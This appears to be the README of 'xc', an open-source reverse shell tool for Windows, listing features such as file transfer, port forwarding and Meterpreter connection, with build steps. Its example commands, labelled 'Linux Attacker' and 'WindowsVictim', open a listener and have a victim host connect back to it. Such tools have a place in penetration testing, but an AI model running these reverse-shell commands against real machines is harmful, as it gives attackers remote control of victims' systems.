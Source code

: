 # xc

Netcat like reverse shell for Windows. Can be run as server on Windows & Linux, while the Client part is only implemented for Windows (yet).

## Features

* File Up-/Download
* Port Forwarding
* Change users (like runas)
* Connect to Meterpreter Listener (windows/meterpreter/reverse_tcp)
* Quick vulnerability check for recent impactful CVEs
* Simple Plugin System

## Examples

- Linux Attacker:	`xc -l -p 1337`			    (Server)
- WindowsVictim :   `xc.exe 10.10.14.4 1337`	(Client)
- Argumentless:     `xc_10.10.14.4_1337.exe`    (Client)


[![asciicast](https://asciinema.org/a/g4jkA6N99GqUqJkDzsboj5ZJ5.svg)](https://asciinema.org/a/g4jkA6N99GqUqJkDzsboj5ZJ5)

## Setup

Windows:
```
go get github.com/hashicorp/yamux
go build
```

Linux:
```
make
```
